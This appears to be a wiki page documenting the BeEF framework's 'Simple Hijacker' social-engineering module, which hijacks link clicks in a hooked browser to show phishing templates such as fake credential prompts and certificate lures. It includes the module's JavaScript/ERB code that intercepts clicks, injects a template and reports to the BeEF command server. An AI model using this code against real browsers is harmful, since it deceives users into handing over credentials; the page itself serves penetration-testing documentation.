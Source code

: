 ##Summary
* **Objective**: Hijack clicks on links to display what you want.
* **Authors**: gallypette
* **Browsers**: All (user notified)
* **Parameters** :
  * **targeted domains** : Only links including one of this domain will be targeted (domains are separated by a comma)
  * Template to use : List of template for social engineering attacks : credential, confirmbox, amazon, chromecertbeggar, chromecertbeggar2
* "Code":https://github.com/beefproject/beef/tree/master/modules/social_engineering/simple_hijacker

## Internal working

Basically, this module will take any link in the page, check if it target one of the domains given and load one template to modify the link.

```javascript
    $j('a').click(function(e) {
      e.preventDefault();
      if ($j(this).attr('href') != '')
      {
        if( <% target.each{ |href| %> $j(this).attr('href').indexOf("<%=href%>") != -1 <% if href != target.last %> || <% else %> ) <% end %><% } %>{	
          <%
              tplpath = "#{$root_dir}/modules/social_engineering/simple_hijacker/templates/#{@choosetmpl}.js"
              file = File.open(tplpath, "r")
              @template = file.read
          %>
          <%= @template %>
          beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result=Template "<%= @choosetmpl %>" applied to '+$j(this).attr('href'));
        }
      }
    });
```

## Screenshots 

[[Images/module-simplehijacker1.png|align=center]]

## Feedbacks

* Domains are really important as the name should be included in the link. Links which are not included in this domain's list will not redirect anymore.